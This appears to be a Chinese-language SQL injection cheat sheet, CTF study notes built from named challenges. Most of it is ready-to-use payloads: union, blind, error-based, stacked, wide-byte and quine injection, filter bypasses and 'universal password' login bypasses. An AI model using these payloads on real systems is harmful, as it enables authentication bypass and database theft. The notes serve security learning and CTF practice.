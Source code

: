 ## 常见

| 考点                          |                                                                            |
| ----------------------------- | -------------------------------------------------------------------------- |
| 0.测试                        | 1' order by 1 -- [123456] 测试                                             |
| 1.联合查询                    | union select group_concat(username,0x7e,password),2,3 from...，order by... |
| [2.布尔盲注](#2布尔盲注)      | if(ascii(substr(database(),1,1))>100,1,0)                                  |
| [4.报错注入](#4报错注入)      |                                                                            |
| [5.堆叠注入](#5堆叠注入)      | 使用 prepare 绕过                                                          |
| 二次注入                      |
| [过滤了单引号](#过滤了单引号) |

### 2.布尔盲注

```sql
if(ascii(substr(database(),1,1))>100,1,0)
布尔盲注不需要闭合
SELECT password from user WHERE id = ${id}
${id} = if(ascii(substr((select flag from flag),{},1))>{},1,2)
```

### 4.报错注入

```sql
(updatexml(1,concat(0x7e,(select user()),0x7e),1)); 大整数报错等
'or updatexml(1,concat(0x7e,user()),1)#
'or updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1)),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='flag_head')),1),1)#
'or updatexml(1,concat(0x7e,(select group_concat(flag_h1) from flag_head)),1),1)#
--- 见 web_sql_00normal_04_error_inject.py
(1). 通过floor报错 能显示64字符, test1名称里会多出1，去掉改为test
(2). 通过updatexml报错 32字符 只有在payload返回的不是xml格式才会生效
(3). 通过ExtractValue报错
?username=admin'or(extractvalue(1,concat(0x7e,user(),0x7e)))%23&password=21
```

### 5.堆叠注入

```sql
select * from users where id= 1;create table test like users;
-1';set @t=concat('sel','ect flag from `1919810931114514`');prepare te from @t;execute te;#
```
### 二次注入
`[RCTF2015]EasySQL`
注册以下用户
```sh
admin"
admin'
admin')
admin")
```
admin" 在修改密码时报错，说明"闭合 二次注入，猜测sql
```sql
update 表 set password='xxx' where username="xx" and pwd='xx'
```

## 常见的 SQL 注入考点 CTF-123458

```
    3.时间盲注: if(ascii(substr(database(),1,1))>100,sleep(5),1)

    6.二次注入:通过在一处输入点构造sql语句，在第二处触发
               -- 1.登陆:邮箱。密码 2.登陆后:限制用户名,显示用户名 -- 可能二次注入 -- 网鼎杯2018unfinish
    7.宽字节注入:通过数据库编码错误来绕过字符转义
                sql = 'select *from user where id=\''.$id.'\'';
                GBK两个字符为一个汉字, 输入宽字符%df使反斜杠和这个%df形成一个汉字
                GET方式 id=1%df' union select 1,database(),3%23
                POST方式-没有url解码 username=1汉') or 1=1#
                        -配合盲注完成
    9.sql注入读写文件:通过sql注入写入webshell,或直接读取服务器文件
    10.sql注入提权:通过sql注 入获取服务器权限
    - 读取数据 见0x10
    - 绕过字符  /**/替换空格, 用<a>无意义填充过waf , 看bypass
                ()替换空格or(1)=(1) , or('1')='1'
    load_file
    head 注入 useragent进行报错注入
    MySQL查询的按位比较 -- CTFshow web1, [GYCTF2020]Ezsqli

    SQLi-Quine  $row['password'] === $password, 输入的password值等于查询出来的值
                http://y24.top/go?_=06d458b6b3aHR0cHM6Ly93d3cuc2h5c2VjdXJpdHkuY29tL3Bvc3QvMjAxNDA3MDUtU1FMaS1RdWluZQ%3D%3D
                https://www.shysecurity.com/post/20140705-SQLi-Quine
                'UNION/**/SELECT/**/REPLACE(REPLACE('"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#',CHAR(34),CHAR(39)),CHAR(37),'"UNION/**/SELECT/**/REPLACE(REPLACE("%",CHAR(34),CHAR(39)),CHAR(37),"%")/**/AS/**/a#')/**/AS/**/a#

```

## Other

```sh
# https://www.bilibili.com/video/BV1ZT4y1o7H8  --1:10:31
"SELECT * FROM user WHERE username ='" .$username. "' AND password = '" .$password. "'"
username=admin\&password=||1=1#
# 关于 "||"
0||1=1, 0||0=0
# rlike(或者reexp)
模糊匹配,可以与正则匹配模式一起使用.如果未指定^xxxx$只要模式在指定字符串中就可以被匹配到
注意: SQL模糊匹配是不区分大小写的, 需要另外写爆破大小写脚本。
name= 'safasfascyxqagasgasfasfas'
name rlike cyxq
username=admin\&password=||(password)rlike(0x{})#
```

综合分析

| Column    | 测试 1  | 测试 2 |
| --------- | ------- | ------ |
| ?id=1''   | ?id='1' |        |
| $id       | 1''     | '1'    |
| $id 结果  | 正常    | 正常   |
| '$id'     | '1'''   | ''1''  |
| '$id'结果 | 正常    | 错误   |

1.  在用户名或密码处加引号测试

        http://[极客大挑战 2019]EasySQL/check.php?username=admin'&password=11
        报错 猜测  select * from users where name='$username' and passwd='$password';

构造 username=admin or 1=1 和 passwd=admin or 1=1 即可

```sql
payload：?username=admin' or '1'='1&password=123' or '1'='1
替换后:   name='admin' or '1'='1' and passwd='123' or '1'='1';
```

### 过滤了单引号

```sql
select * from users where  username= '$_POST["username"]' and password = '$_POST["username"]';
```

- username = <span class="red">1\\</span>
- password = <span class="red"> or 1#</span>

```sql
select * from users where  username= '1\' and password =' or 1#
```

### 万能密码

有时不能为空（过滤了空字符）

```sql
1' or 1=1 #
uname=1' or 1=1 #&passwd=any
uname=1' or '1=1'#&passwd=any
select * from user where uname = '222' and upass = '222'
select * from user where uname = '222' and upass = '222' or 1=1
select * from user where uname = '222' and upass = '222' or '1=1#'
select * from user where uname = '222' and upass = '222' or '1'='1'
```

fuzz 后能用

```python
/*!union*/ 绕过union过滤
"0^" + "(ascii(substr((select(flag)from(flag)),{0},1))>{1})".format(i,mid)
# '0^(ascii(substr((select(flag)from(flag)),1,1))>94)'
```

<style>
 .red{color:red;}
</style>
